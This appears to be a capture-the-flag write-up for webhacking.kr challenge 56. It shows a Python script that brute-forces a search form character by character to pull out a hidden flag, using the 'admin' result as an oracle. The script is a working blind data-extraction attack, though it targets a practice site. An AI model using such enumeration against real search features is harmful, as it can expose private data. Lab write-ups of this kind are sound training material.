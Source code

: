 # 56 

![!](img/56_0.PNG)

> TIP
> Write any letters and found out the search was searching also includes text inside
> Since we know flags starts with `flag{`, we can use that for our initial keywords 

```py3
import requests
from bs4 import BeautifulSoup

URL="https://webhacking.kr/challenge/web-33/index.php"

search_str = "flag{"
next_letter = '!'

# If there is admin
while 1:

    #first letter to check

    check_search = search_str + next_letter

    print(check_search)
    res  = requests.post(URL, data={'search': check_search})
    soup = BeautifulSoup(res.text, 'html.parser')

    print(soup.find_all(text="admin"))
    # found admin
    if(soup.find_all(text="admin")):
        print("Found!")
        search_str = check_search
        next_letter = '!'
    else:
        next_letter = chr(ord(next_letter)+1);
        if(next_letter == '%'):
            next_letter = chr(ord(next_letter)+1);


    if(next_letter == '}'):
        print("Done",search_str)
        break;
```

![!](img/56_1.gif)

When the program is done running the flag is following

![!](img/56_2.PNG)

Now shove it in Auth!

![!](img/56_3.PNG)


